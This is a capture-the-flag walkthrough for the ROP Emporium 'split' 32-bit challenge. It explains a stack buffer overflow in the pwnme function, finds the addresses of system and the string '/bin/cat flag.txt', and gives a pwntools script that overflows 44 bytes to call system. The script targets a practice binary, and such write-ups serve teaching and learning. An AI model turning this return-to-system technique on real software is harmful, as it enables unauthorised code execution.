







# split x86 [Pwn]

- x86

Link : [split x86](https://ropemporium.com/challenge/split.html)

Binary : [split x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/split32.zip)


## Vulnerability Analysis and Exploitation

In the `pwnme` function, the program accepts an input string of up to `96 bytes`, while the size of the buffer `s` is limited to `40 bytes`. This allows for a buffer overflow, enabling us to overwrite critical registers and redirect the program's execution flow to another piece of code or program.



Imported Functions

Here is the list of imported functions:



We notice the presence of the `system` function, which is very useful for executing system commands.

Additionally, the binary contains the following interesting string:
`/bin/cat flag.txt`



Our goal is to exploit the vulnerability to call the `system` function with `/bin/cat flag.txt` as the argument, which will allow us to display the contents of the `flag.txt` file.

## Exploitation Plan

To call `system` with an argument in a 32-bit binary, we need to:

1. Push the address of the `system` function onto the stack.
2. Provide the necessary arguments (in this case, the address of the string `/bin/cat flag.txt`).

The stack layout should look like this:

```
Address of system  
(4 bytes)  
Address of "/bin/cat flag.txt"  
```

#### Key Information

- Address of system: 0x80483e0
- Address of the string /bin/cat flag.txt: 0x0804A030





## Calculating the Offset

Before redirecting the execution flow, we need to determine the exact offset required to reach the EIP register from the start of the buffer. We use `gdb` for this purpose.

Here’s an example output:





Now we know that the offset to reach EIP is 44 bytes (replace with the actual value).

Exploit

Using the calculated offset, we can construct our payload:

1. Fill the buffer up to the offset.
2. Add the address of the system function.
3. Add a dummy value (useful only for certain contexts where a return value is required).
4. Add the address of the string /bin/cat flag.txt.

Here’s an example payload:

```py

from pwn import *

sh = process("./split32")
print(sh.recv().decode())

payload = b"A" * 44        # Tthe offset  
payload += p32(0x80483e0)  # Address of system  
payload += b"JUNK"         # Dummy value  
payload += p32(0x0804A030) # Address of "/bin/cat flag.txt"  

sh.sendline(payload)
sh.interactive()
```
